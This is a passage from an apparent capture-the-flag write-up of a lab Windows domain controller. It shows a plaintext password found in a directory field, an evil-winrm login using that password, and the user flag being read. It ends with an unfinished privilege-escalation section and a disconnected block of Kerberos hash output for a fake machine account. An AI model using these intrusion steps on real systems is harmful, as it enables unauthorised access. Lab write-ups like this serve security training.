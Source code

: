 that `info` key or field is only set for this user, so this must be this user's password. I don't really know if that is something that is usually done in real world applications "I HOPE NOT", but anyhow, I tried connecting to the DC server's command line using `evil-winrm`


```shell
└─$ evil-winrm -i $IP -u "support" -p "Ironside47pleasure40Watchful"

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> 
````

and I'm in! I navigated through until I got the user flag.

```shell
*Evil-WinRM* PS C:\Users\support\Documents> cd C:\Users\support\Desktop
*Evil-WinRM* PS C:\Users\support\Desktop> dir


    Directory: C:\Users\support\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         9/17/2022   7:13 AM             34 user.txt


*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
*******************************9
*Evil-WinRM* PS C:\Users\support\Desktop> 
```

---

## Privilege Escalation

<---- TO BE CONTINUED ---->

	[*] Input password             : 123456
[*] Input username             : FAKE01$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfake01.support.htb
[*]       rc4_hmac             : 32ED87BDB5FDC5E9CBA88547376818D4
[*]       aes128_cts_hmac_sha1 : 4799D0F80833802EE7F1412BD30DCD5C
[*]       aes256_cts_hmac_sha1 : 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
[*]       des_cbc_md5          : 836D4C85A4F23B62
